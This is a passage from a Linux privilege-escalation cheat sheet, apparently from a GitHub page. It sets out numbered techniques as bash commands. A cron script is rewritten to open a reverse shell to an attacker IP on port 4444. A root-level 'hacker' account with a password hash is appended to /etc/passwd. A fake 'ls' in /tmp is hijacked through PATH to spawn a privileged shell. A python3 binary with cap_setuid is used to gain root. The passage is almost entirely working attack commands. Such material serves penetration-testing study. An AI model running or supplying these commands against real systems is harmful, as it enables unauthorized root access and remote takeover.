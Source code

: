 ```bash
# If you find writable cron script:
echo '#!/bin/bash' > /path/to/script.sh
echo '/bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' >> /path/to/script.sh
chmod +x /path/to/script.sh
```

### 5. Writable /etc/passwd
```bash
# Check if writable
ls -la /etc/passwd

# Generate password hash
openssl passwd -1 -salt hacker hacker123

# Add user to /etc/passwd
echo 'hacker:$1$hacker$TzyKlv07KzHnVMCd8p.8N1:0:0:root:/root:/bin/bash' >> /etc/passwd

# Switch to new user
su hacker
```

### 6. Path Hijacking
```bash
# Check PATH
echo $PATH

# If . is in PATH or writable directory in PATH
# Create malicious binary with same name as legitimate one
cd /tmp
echo '#!/bin/bash' > ls
echo '/bin/bash -p' >> ls
chmod +x ls
export PATH=/tmp:$PATH

# When legitimate program calls 'ls', our version runs
```

### 7. Capabilities
```bash
# Check file capabilities  
getcap -r / 2>/dev/null

# Common capability escalations:
# cap_setuid+ep allows changing UID
# cap_dac_override+ep bypasses file permissions
# cap_fowner+ep bypasses file ownership checks

# Example: python with cap_setuid
# /usr/bin/python3 = cap_setuid+ep
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```
